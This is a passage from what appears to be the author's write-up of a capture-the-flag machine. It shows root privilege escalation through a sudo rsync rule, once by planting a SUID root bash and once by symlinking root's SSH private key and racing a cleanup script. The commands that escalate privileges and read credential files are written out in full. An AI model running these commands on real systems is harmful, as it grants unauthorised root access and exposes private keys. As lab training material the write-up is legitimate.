 ![image](https://i.imgur.com/WtmLQ42.png)

One could run the commands below in quick succession or simply by chaining them with `;` or `&&`. This will copy the bash binary in the app-production folder that the dev user has access to. Then it will give it SUID permissions and the sudo commmand will change the owner to root. We list the contents of /opt/app directory to confirm that we now have a SUID bash binary owned by root. Then we execute bash with `-p` to preserve permissions and get root.

```bash
cp /bin/bash /home/dev/app-production
chmod u+s /home/dev/app-production/bash
sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* --chown root:root /opt/app/
ls -la /opt/app
/opt/app/bash -p
```

![image](https://i.imgur.com/DeFoHx4.png)

## Example 3: using symlink

Another option is to use a symlink by transforming it using the `-L` flag:  

![image](https://i.imgur.com/wwEABfE.png)

```bash
ln -s /root/.ssh/id_rsa root_id_rsa
sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/ -L --chown=dev:dev /opt/app/
```
Notice that we are also using the `--chown` flag so that we can actually read the file after we copy it, otherwise the permissions of the root user would be kept and we wouldn't be able to read the file.  

![image](https://i.imgur.com/fw34WLZ.png)

Players can simply run the commands at the same time to be faster and win the "race condition" imposed by the cleanup script.

```bash
ln -s /root/.ssh/id_rsa root_id_rsa
sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/ -L --chown=dev:dev /opt/app/;cat /opt/app/root_id_rsa
```

![image](https://i.imgur.com/Gp46MA0.png)

Or they can get the root flag directly:  

![image](https://i.imgur.com/KqANM8y.png)

# Disclaimer

I can understand that some may have found the cleanup here annoying. I couldn't think of other ways to ensure that the directory doesn't get clobbered by  players. I do have to keep in mind that after the Release Arena, there will be multiple players doing the same box at the same time. On the plus side, it doesn't impact one of the solutions and it isn't completely unrealistic as often times, in production environments, you can find similar cleanup scripts or even IDS systems trying to prevent malicious modifications that could be bypassed by being fast (race conditions). That being said, thank you to everyone for the amazing feedback.
